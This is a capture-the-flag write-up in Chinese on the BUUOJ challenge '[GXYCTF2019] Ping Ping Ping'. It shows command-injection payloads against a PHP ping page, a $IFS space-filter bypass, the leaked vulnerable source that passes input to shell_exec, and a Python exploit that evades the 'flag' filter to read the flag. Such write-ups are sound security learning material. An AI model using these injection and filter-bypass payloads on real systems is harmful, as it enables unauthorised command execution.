

# 分析

来自[[GXYCTF2019]Ping Ping Ping](https://buuoj.cn/challenges#[GXYCTF2019]Ping%20Ping%20Ping)

提示也是ping，前一题是post请求，这题应该是get请求，payload=`127.0.0.1|ls`



发现有两个php，我尝试访问，不出意料无法，提示被过滤了

经过多次尝试，好像把空格过滤了，尝试空格绕过payload=`?ip=127.0.0.1;cat$IFS$1index.php`，得到源码分析都过滤了啥

```php
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){ //这里正则表达式，可使用提前设置变量绕过
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}
?>
```


# exp

```python
import requests
import re

url = "http://b9fd5336-301f-4ec7-80bd-77c0968d255d.node5.buuoj.cn:81/"
kw={
  'ip':'127.0.0.1;a=g;cat$IFS$1fla$a.php'  #绕过空格和flag贪婪匹配
}
res = requests.get(url, params=kw)

if res.status_code == 200:
    res_text = res.text
    # 打印响应内容（可选）
    #print("Response:", res_text)
    # 使用正则表达式查找 flag
    flag_pattern = "flag\{.*?\}"
    flag_match = re.search(flag_pattern, res_text)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag is -->> {flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```

